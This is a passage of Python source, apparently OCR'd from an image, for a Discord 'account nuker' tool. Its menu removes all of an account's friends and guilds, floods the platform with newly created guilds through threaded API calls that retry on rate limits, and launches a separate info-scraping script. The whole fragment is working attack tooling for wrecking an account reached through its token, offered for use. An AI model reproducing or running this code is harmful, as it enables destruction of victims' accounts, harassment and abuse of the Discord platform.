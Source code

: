 def spamguilds(name):
  while True: 
    json = {'name': name, 'type': 0}
    r = requests.post('https://discord.com/api/v8/guilds', headers=headers, json=json)
    if 'global' in r.text:
      time.sleep(r.json()['global'])
    else:
      break
def removeguild():
  for g in guilds:
    threading.Thread(target=removeguilds, args=(g,)).start()

def removefriend():
  for f in friends:
    threading.Thread(target=removefriends, args=(f,)).start()
def guildspam():
  name = input("\nGuild Names: ")
  amount = input("Amount: ")
  print()
  for i in range(int(amount)):
    threading.Thread(target=spamguilds, args=(name,)).start()
def accountnuker():
  os.system('cls; clear')
  print(f'''
				    \u001b[38;5;111m╔═╗╔═╗╔═╗╔═╗╦ ╦╔╗╔╔╦╗  ╔╗╔╦ ╦╦╔═╔═╗╦═╗
				    \u001b[38;5;159m╠═╣║  ║  ║ ║║ ║║║║ ║   ║║║║ ║╠╩╗║╣ ╠╦╝
				    \u001b[38;5;195m╩ ╩╚═╝╚═╝╚═╝╚═╝╝╚╝ ╩   ╝╚╝╚═╝╩ ╩╚═╝╩╚═\u001b[38;5;26m
			     [+]═════════════════════[+]═══════════════════[+]
 		              ║ \u001b[38;5;27m[1] - Remove Friends  ║ \u001b[38;5;27m[4] - All In One    ║
			      ║ \u001b[38;5;27m[2] - Remove Guilds   ║ \u001b[38;5;27m[5] - Scrape Info   ║
			      ║ \u001b[38;5;27m[3] - Spam Servers    ║ \u001b[38;5;27m[6] - Back To Menu  ║
			     [+]═════════════════════[+]═══════════════════[+]
  ''')
  choice = int(input("\u001b[38;5;231m$> "))
  if choice == 1:
    removefriend()
    time.sleep(1)
    accountnuker()
  elif choice == 2:
    removeguild()
    time.sleep(1)
    accountnuker()
  elif choice == 3:
    guildspam()
    time.sleep(1)
    accountnuker()
  elif choice == 4:
    removefriend()
    removeguild()
    time.sleep(2)
    os.system('cls; clear')
    print("Done Nuking - Spam Config: \n")
    guildspam()
    time.sleep(2)
    accountnuker()
  elif choice == 5:
    os.system('python scrape.py')
    time.sleep(1)
    os.system('python main.py')
  elif choice == 6:
    mainmenu()
  else:
    print("\nInvalid Choice - Please Try Again...")
    time.sleep(2)